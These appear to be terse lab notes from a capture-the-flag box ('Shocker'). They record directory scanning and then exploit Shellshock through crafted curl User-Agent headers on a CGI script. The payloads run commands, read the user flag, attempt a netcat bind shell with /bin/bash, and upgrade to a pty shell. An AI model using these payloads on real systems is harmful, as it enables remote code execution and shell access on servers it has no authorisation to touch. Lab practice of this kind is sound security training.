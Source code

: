 # first scan
dirb http://10.10.10.56 /usr/share/dirbuster/directory-list-2.3-medium.txt

# this finds us nothing good, except /cgi-bin, so let's do a 
# more specific scan
dirb http://10.10.10.56/cgi-bin /usr/share/dirb/wordlists/common.txt -X ".sh" > dirb-report

# this finds user.sh
# let's have a look
curl 10.10.10.56/cgi-bin/user.sh

# shock is a reference to the bash shell shock vuln

# let's find out who we are

curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/which whoa
mi' 10.10.10.56/cgi-bin/user.sh
-> /usr/bin/whoami

[21:34:50] ~/D/d/S/h/h/shocker (master ⚡)
curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/whoami
' 10.10.10.56/cgi-bin/user.sh
-> shelly

# so we have user access

curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/which nc' 10.10.10.56/cgi-bin/user.sh
-> /bin/nc

# so now we know where nc is at (mine is at /usr/bin/nc, that's why it didn't work before)
curl -A '() { :;} echo "Content-Type: text/plain"; echo; /bin/nc -lvvp 4546 -e /bin/bash' 10.10.10.56/cgi-bin/user.sh

# let's pwn the user first
curl -A '() { :;} echo "Content-Type: text/plain"; echo; /bin/cat /home/shelly/user.txt' 10.10.10.56/cgi-bin/user.sh

# huh, nothings working
# let's debug


λ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/nc -l localhost -p 10000 -e /bin/bash >> /tmp/logfoo 2>&1' 10.10.10.56/cgi-bin/user.s
h
λ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /tmp/logfoo' 10.10.10.56/cgi-bin/user.sh
/bin/nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
          [-P proxy_username] [-p source_port] [-q seconds] [-s source]
          [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
          [-x proxy_address[:port]] [destination] [port]

# okay, seems that openbsd netcat doesn't provide -e
# let's use relaying: https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
λ curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/mknod /tmp/foomypipe p' 10.10.10.56/cgi-bin/user.sh

# nothing worked
# let's fall back to metasploit
# …

# get bash
python3 -c 'import pty;pty.spawn("/bin/bash")'


